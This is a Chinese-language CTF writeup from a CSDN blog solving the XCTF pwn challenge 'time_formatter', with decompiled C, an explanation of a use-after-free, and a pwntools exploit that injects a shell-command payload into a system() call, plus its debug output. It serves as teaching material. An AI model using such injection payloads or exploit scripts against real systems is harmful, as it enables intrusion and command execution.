

<!--yml
category: 未分类
date: 2022-04-26 14:47:42
-->

# time_formatter [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列20_3riC5r的博客-CSDN博客

> 来源：[http://blog.csdn.net/fastergohome/article/details/103703307](http://blog.csdn.net/fastergohome/article/details/103703307)

题目地址：[time_formatter](https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=1&id=4832&page=1)

速度挺快的，已经赶上高手进阶区的第九题了！

废话不说，看看题目先



可以看到星星已经到了三颗星了。表示有点不一样的地方了。

照例看下安全机制

```
[*] '/ctf/work/python/time_formatter/807522d1647f4f0b8b26d6c1530d72b7'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

本次开启了Canary 和FORTIFY

开启了FORTIFY_SOURCE对格式化字符串有两个影响：

1.  包含%n的格式化字符串不能位于程序内存中的可写地址。
2.  当使用位置参数时，必须使用范围内的所有参数。所以如果要使用%7$x，你必须同时使用1,2,3,4,5和6。

 就是说格式化字符串漏洞利用起来就比较困难了。

* * *

我们先看下反编译出来的c语言代码，本次的代码多了一些函数，我已经重命名过了一些重要的变量和函数。

main函数

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, "> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_int() )
      {
        case 1:
          v6 = set_time_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit_program();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```

注意到有五个重要的函数

1.  set_time_format
2.  set_time
3.  set_time_zone
4.  print_time
5.  exit_program

我直接贴出来这五个函数的c语言代码，我已经修饰过了

```
__int64 set_time_format()
{
  char *szFormat; // rbx

  szFormat = fgets_string();
  if ( (unsigned int)check_string(szFormat) )
  {
    g_pszFormat = szFormat;
    puts("Format set.");
  }
  else
  {
    puts("Format contains invalid characters.");
    free_wrap(szFormat);
  }
  return 0LL;
}

__int64 set_time()
{
  int dwTime; // eax
  const char *szMsg; // rdi

  __printf_chk(1LL, "Enter your unix time: ");
  fflush(stdout);
  dwTime = get_int();
  szMsg = "Unix time must be positive";
  if ( dwTime >= 0 )
  {
    g_dwTime = dwTime;
    szMsg = "Time set.";
  }
  puts(szMsg);
  return 0LL;
}

__int64 set_time_zone()
{
  g_pszTimeZone = fgets_string();
  puts("Time zone set.");
  return 0LL;
}

__int64 __fastcall print_time(__int64 a1, __int64 a2, __int64 a3)
{
  char command; // [rsp+8h] [rbp-810h]
  unsigned __int64 v5; // [rsp+808h] [rbp-10h]

  v5 = __readfsqword(0x28u);
  if ( g_pszFormat )
  {
    __snprintf_chk(&command, 2048LL, 1LL, 2048LL, "/bin/date -d @%d +'%s'", (unsigned int)g_dwTime, g_pszFormat, a3);
    __printf_chk(1LL, "Your formatted time is: ");
    fflush(stdout);
    if ( getenv("DEBUG") )
      __fprintf_chk(stderr, 1LL, "Running command: %s\n", &command);
    setenv("TZ", g_pszTimeZone, 1);
    system(&command);
  }
  else
  {
    puts("You haven't specified a format!");
  }
  return 0LL;
}

signed __int64 exit_program()
{
  signed __int64 result; // rax
  char s; // [rsp+8h] [rbp-20h]
  unsigned __int64 v2; // [rsp+18h] [rbp-10h]

  v2 = __readfsqword(0x28u);
  free_wrap(g_pszFormat);
  free_wrap(g_pszTimeZone);
  __printf_chk(1LL, "Are you sure you want to exit (y/N)? ");
  fflush(stdout);
  fgets(&s, 16, stdin);
  result = 0LL;
  if ( (s & 0xDF) == 89 )
  {
    puts("OK, exiting.");
    result = 1LL;
  }
  return result;
} 
```

注意看一下函数fgets_string，这个函数调用了strdup来分配内存，而这个函数在set_time_format和set_time_zone中都调用了。

另外在exit_program中有个UAF漏洞

```
 free_wrap(g_pszFormat);
  free_wrap(g_pszTimeZone);
  __printf_chk(1LL, "Are you sure you want to exit (y/N)? ");
```

 先释放内存，然后再问是否退出，这样就可以不用退出了，但是内存释放了。

* * *

先用正常流程简单测试一下：

```
root@mypwn:/ctf/work/python/time_formatter# ./807522d1647f4f0b8b26d6c1530d72b7 
Welcome to Mary's Unix Time Formatter!
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 1
Format: AAA
Format set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 2
Enter your unix time: 111
Time set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 5
Are you sure you want to exit (y/N)? 
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 3
Time zone: BBB
Time zone set.
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 4
Your formatted time is: BBB
1) Set a time format.
2) Set a time.
3) Set a time zone.
4) Print your time.
5) Exit.
> 
```

注意到Your formatted time is: BBB，正常应该是释放掉了，这就是UAF漏洞的表现形式。

根据上面的测试情况，我们编写python脚本如下：

```
#!python
#!/usr/bin/env python
#coding:utf8

from pwn import *

context.log_level = 'debug'
process_name = './807522d1647f4f0b8b26d6c1530d72b7'
p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
# p = remote('111.198.29.45', 45404)

def select_menu(choice, payload):
	p.sendlineafter('5) Exit.\n> ', str(choice))
	if len(payload) > 0:
		p.sendlineafter(': ', payload)
	else:
		p.sendline('')

select_menu(1, 'AAA')
select_menu(2, '111')
select_menu(5, '')
select_menu(3, '\';/bin/sh;\'')
select_menu(4, '')

p.interactive()
```

执行结果如下：

```
root@mypwn:/ctf/work/python/time_formatter# python time_formatter.py 
[+] Starting local process './807522d1647f4f0b8b26d6c1530d72b7' env={'LD_LIBRARY_PATH': './'} : pid 400
[DEBUG] Received 0x7f bytes:
    "Welcome to Mary's Unix Time Formatter!\n"
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x8 bytes:
    'Format: '
[DEBUG] Sent 0x4 bytes:
    'AAA\n'
[DEBUG] Received 0x64 bytes:
    'Format set.\n'
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0x16 bytes:
    'Enter your unix time: '
[DEBUG] Sent 0x4 bytes:
    '111\n'
[DEBUG] Received 0x62 bytes:
    'Time set.\n'
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '5\n'
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[DEBUG] Received 0x7d bytes:
    'Are you sure you want to exit (y/N)? 1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0xb bytes:
    'Time zone: '
[DEBUG] Sent 0xc bytes:
    "';/bin/sh;'\n"
[DEBUG] Received 0x67 bytes:
    'Time zone set.\n'
    '1) Set a time format.\n'
    '2) Set a time.\n'
    '3) Set a time zone.\n'
    '4) Print your time.\n'
    '5) Exit.\n'
    '> '
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Sent 0x1 bytes:
    '\n' * 0x1
[*] Switching to interactive mode
[DEBUG] Received 0x18 bytes:
    'Your formatted time is: '
Your formatted time is: [DEBUG] Received 0x1 bytes:
    '\n'

$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x37 bytes:
    '807522d1647f4f0b8b26d6c1530d72b7      time_formatter.c\n'
807522d1647f4f0b8b26d6c1530d72b7      time_formatter.c
[DEBUG] Received 0x38 bytes:
    '807522d1647f4f0b8b26d6c1530d72b7.i64  time_formatter.py\n'
807522d1647f4f0b8b26d6c1530d72b7.i64  time_formatter.py
$ 
```

执行成功，这个题目的考点是堆溢出的UAF

另外我提醒一下，在编写python脚本的时候一定要注意保持代码的优美性和可读性！